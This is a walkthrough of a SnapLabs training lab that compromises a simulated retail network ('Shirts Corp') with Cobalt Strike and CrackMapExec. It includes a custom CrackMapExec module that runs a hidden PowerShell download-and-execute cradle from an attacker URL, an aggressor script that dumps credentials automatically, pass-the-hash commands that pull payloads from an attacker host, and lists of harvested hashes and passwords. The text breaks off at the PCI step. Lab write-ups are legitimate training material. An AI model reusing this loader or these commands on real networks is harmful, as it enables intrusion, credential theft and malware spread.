

Hello , friends


I recently completed the snaplabs Shirt Corp lab and wanted to write a walkthrough that shows how I completed the lab.


## Lab Overview / Scope


### Overview
" Shirts Corp is a small retail shop which just opened up an online store. They have a basic internal network, and decided to host their e-commerce site themselves. This means they're collecting customer credit card and other PCI related data. As an attacker, gain access to the Shirts Corp internal network through exposed vulnerable services, then pivot your way through the environment to identify the sensitive PCI data."


### Lab Details
CIDR Range: 10.10.0.0/16
### Diagram


## Tools


### Crackmapexec


Crackmapexec is my preferred tool for SMB lateral movement. In this blog ill also be using a module called 'cobaltloadps' this is a simple module I wrote to aid in the spreading of cobalt over smb :
```python
class CMEModule:
name = 'cobaltloadps'
description = "load onto cobalt strike"
supported_protocols = ['smb']
opsec_safe = True
multiple_hosts = True


defoptions(self,context,module_options):


self.username =None
if'URL'in module_options:
self.URL= module_options['URL']


else:
context.log.error("URL is needed -o URL=")
exit(1)


defon_admin_login(self,context,connection):
connection.ps_execute(f"powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('{self.URL}'))\"") #make less obvs
context.log.success('Executed payload')
```


### CobaltStrike


For the C2 I'll be using cobaltstrike because its sick. My cobaltstrike has a custom CNA script that on connection attempts to do `logonpasswords` and `hashdump` and also adds a command to make admin credentials green this looks something like:
```ruby
on beacon_initial {
binput($1, "logonpasswords");
binput($1, "hashdump");
bhashdump($1);
blogonpasswords($1);
}


command admincreds {
local('@creds');


# find all of our creds that are user Administrator.
foreach $entry (credentials()) {
if ($entry['user'] eq "Administrator") {
push(@creds, $entry);
}
}


# highlight all of them green!
highlight("credentials", @creds, "good");


}


```


## Lab


## Initial Scan
Okay so looking at the provided network diagram we can get the following ranges:
```
10.10.4.0/24
10.10.5.0/24
10.10.6.0/24
10.10.7.0/24
10.10.8.0/24
10.10.9.0/24
```


I started off by looking at the 10.10.7.0/24 range as the network diagram had this listed as web servers so I scanned it with the following command


```bash
nmap -p 1-65535 -A -v 10.10.7.0/24
```


This lead to the discovery of the host `10.10.7.137` running `tomcat` on port `8080`. Taking a further look at this application lead to finding it was configured to use default `tomcat:tomcat` credentials knowing this we can now get inital access.


## Initial Access


So to make this simple on my self im going to use MSF's tomcat war deployer and then load it onto cobalt strike as show below


Having now got onto the machine we can load it onto cobalt strike


## Dumping Hashes


So as stated at the begining of this blog my cobalt auto dumps hashes on connection so we now should be able to navigate to the credential tab and find some credentials


## Lets move get lateral


### Find windows servers
Okay so having NTLM hashes for a domain user on the POLO domain we can begin to move lateraly first of all I gathered a list of all online windows machines this looked like


```
10.10.6.113
10.10.6.59
10.10.8.81
10.10.6.160
10.10.4.57
10.10.4.10
10.10.5.86
10.10.7.137
10.10.4.84
10.10.4.169
10.10.8.130
10.10.5.237
10.10.6.242
10.10.6.57
10.10.7.133
10.10.6.188
10.10.5.113
10.10.9.111
10.10.9.189
```
### Setting up pivot listner
Now having our windows servers we can set up our pivot listener on cobalt strike. This can be done by right clicking the infected host and navigating to `Pivoting > Listner` then filling it out as such:


with the listener created we can go to `Attacks > Web Drive by > Scripted Web Delivery` and then filling it out like:


we should now be able to access our powershell payload on `http://attacker:80/payload` with this in mind we can now use `crackmapexec` and the module I created to begin to move lateraly


### moving lateraly with SMB


Now we can be big hacker man and execute the following command
```bash
crackmapexec smb windows_servers -d POLO -u smonroe -H 1e1d8d26da45529aa70ccba3ce84de83 -M cobaltloadps -o URL=http://10.9.254.6/payload
```


### PWN


and just like that we have pwn'd 3 new hosts and auto dumped credentials stored in memory gaining us 3 new local administrator accounts and 1 new domain user


```
PHLWP70A\Administrator 1ddb9943b5152c571b20de54a455c7e6
POLO\jhorn 29089ca93410d89d02aaf55cb4cefb4a
PHLWP70A\Guest 31d6cfe0d16ae931b73c59d7e0c089c0
POLO\jhorn Honda600
DEVSQL01\Guest 31d6cfe0d16ae931b73c59d7e0c089c0
DEVSQL01\Administrator d36b166a247b1d53fc3ec29d0ad8d689
```
### current PWN list


```
NYC!31B


PHLWP70A
PHLWD42C


DEVSQL01
```


## Rinse and repeat


having gained more of a foot hold on the network now would be a great time to start looking at persistence and multiple points of callback but since this is just a simulation we will get straight back to using those harvested credentials to look for new machines


Looking at the hashes we got the most obvious account to use is the next account on the POLO domain.


Just a FYI I like to set up pivot listners on what ever host gave me the credentials as its more likely that hosts that are able to be authenticated on using the same credentials can communicate.


So I set up a pivot listner on `10.10.6.242` and repeat the above steps
### Fail


Looking at the output of crackmap we pwn 6 servers but we only get one call back at this point it became clear that some servers are not able to communicate with other servers so I moved to using the host `PHLWD42C` as the pivot listner.
### Success


just like that we are now able to esablish all those connections to the host granting us more credentials to use


### current PWN list


```
NYC!31B
NYCWQ51D
NYCIP55A


PHLWP70A
PHLWD42C
PHLWP70A
PHLWD99B


DEVSQL01
```


### Notes


So my method proved counter productive but I continue to deploy the same method through out testing as it did end up working for other hosts


## Pwning as POLO\enicholson


So having just ran our crackmap as POLO\jhorn we have now gained the users
```
NYCIP55A\IME_ADMIN a751d8843bc4bb59aace3d8f85afe6c1
NYCIP55A\IME_USER a751d8843bc4bb59aace3d8f85afe6c1
NYCIP55A\Administrator 8d4e33bafd2652a148b8bf549d608bec
NYCIP55A\Guest 31d6cfe0d16ae931b73c59d7e0c089c0
PHLWD99B\Guest 31d6cfe0d16ae931b73c59d7e0c089c0
PHLWD99B\Administrator 69338692292b7ac563b1209df32e5e59
POLO\enicholson &2zAC%bau7J7
POLO\enicholson c6e0b70fef75e96af26e77b61f2cf316
NYCWQ51D\Guest 31d6cfe0d16ae931b73c59d7e0c089c0
NYCWQ51D\Administrator 0d907b6929ee53f5f2da053a8851f732
```


Looking at these users we can see an account we have not interacted with before enicholson so we do the above steps of creating a pivot listner on the machine that we found the credentials on `10.10.6.57` (`PHLWD99B`) and attempt to move lateraly with crackmapexec


### PWN


and just like that we pwn the polo domain controller (`STRIPPED`) and gain all users ntlm hashs.


### current PWN list


```
NYC!31B
NYCWQ51D
NYCIP55A


PHLWP70A
PHLWD42C
PHLWP70A
PHLWD99B


DEVSQL01


SALMON
SAPPHIRE


STRIPED (Domain Controller for POLO.SHIRTS.CORP)
```


## Child DC now what?


So im going to be honest I got a little stuck here having quickly gained access to the child DC I was a little confused when throwing all the NTLM hashes from the CHILD DC resulted in no new sessions on the main DC so I decided to take a look at the local administrator hashes we had captured


### administrator hashes


That resulted in the following list


```
PHLWP70A\Administrator 1ddb9943b5152c571b20de54a455c7e6
STRIPED\Administrator a0344e117c4fa1a0b7cebc63c1e8ed12
DEVSQL01\Administrator d36b166a247b1d53fc3ec29d0ad8d689
NYCWQ51D\Administrator 0d907b6929ee53f5f2da053a8851f732
NYCWQ31B\Administrator 02c4e026a63f475a042f6f9c1b793cfc
NYCIP55A\Administrator 8d4e33bafd2652a148b8bf549d608bec
PHLWD99B\Administrator 69338692292b7ac563b1209df32e5e59
```


Having these users we can now try to authenticate as local admin on all the machines using the following command


```bash
crackmapexec smb windows_servers -u Administrator -H hashes --local-auth -M cobaltloadps -o URL=http://10.9.254.6/payload5
```


and just like that we pwn the following hosts using the same admin credentials
```
SMB 10.10.6.160 445 DEVSQL01 [+] DEVSQL01\Administrator:d36b166a247b1d53fc3ec29d0ad8d689 (Pwn3d!)
SMB 10.10.8.130 445 PHLDQ36C [+] PHLDQ36C\Administrator:d36b166a247b1d53fc3ec29d0ad8d689 (Pwn3d!)
```


### Getting SHIRTS
looking at the credentials reported on initial access we find the following new sets of credentials


```
PHLDQ36C\Administrator d36b166a247b1d53fc3ec29d0ad8d689
SHIRTS\zmullen Winston96
PHLDQ36C\Guest 31d6cfe0d16ae931b73c59d7e0c089c0
SHIRTS\zmullen 297b35e07ae0144ad409abaf29092d7a
```


### Current PWN list
```
NYC!31B
NYCWQ51D
NYCIP55A


PHLWP70A
PHLWD42C
PHLWP70A
PHLWD99B
PHLDQ36C


DEVSQL01


SALMON
SAPPHIRE


STRIPED (Domain Controller for POLO.SHIRTS.CORP)
```


## SHIRTS.CORP Domain lateral movement


Having finnaly gotten a foothold on the shirts domain we can start to look for new servers we can attack using the following hash


```
SHIRTS\zmullen 297b35e07ae0144ad409abaf29092d7a
```


### CME
This is done with the following command


```bash
crackmapexec smb windows_servers -d SHIRTS -u zmullen -H297b35e07ae0144ad409abaf29092d7a-M cobaltloadps -o URL=http://10.9.254.6/payload6
```


### PWN


and boom we get
```
PHLWQ40A\Administrator 7d8833ab0104d26055d0c0ab7f4a7188
SHIRTS\ehahn q9GxAk%Y3"
PHLWQ40A\Guest 31d6cfe0d16ae931b73c59d7e0c089c0
SHIRTS\ehahn b882cdad8c4e2a9365680940b5a02eea
PHLFD12C\Administrator 97f1be9699b47b0e3850bceee6fa1163
PHLFD12C\Guest 31d6cfe0d16ae931b73c59d7e0c089c0
```


## SHIRTS\ehan movement


So now we are established on the shirts domain we can begin to move arround using the newly aquired
```
SHIRTS\ehahn b882cdad8c4e2a9365680940b5a02eea
```


### PWN


### current PWN list


```
NYCWQ31B
NYCWQ51D
NYCIP55A
NYC22A


PHLWP70A
PHLWD42C
PHLWP70A
PHLWD99B
PHLDQ36C
PHWQ40A
PHLFD12C


DEVSQL01


SALMON
SAPPHIRE


STRIPED (Domain Controller for POLO.SHIRTS.CORP)
```


## POLO\rmack spread
just as before we take the user and spread using a pivot listner


### PWN


and just like that we have pwnd that last of the servers. But we have not being able to spawn a cobalt beacon on the PCI hosts (`10.10.9.111` , `10.10.9.189`). Since it looks like they cant reach us we will instead upload the exe and execute the pivot manually


## PWN PCI network


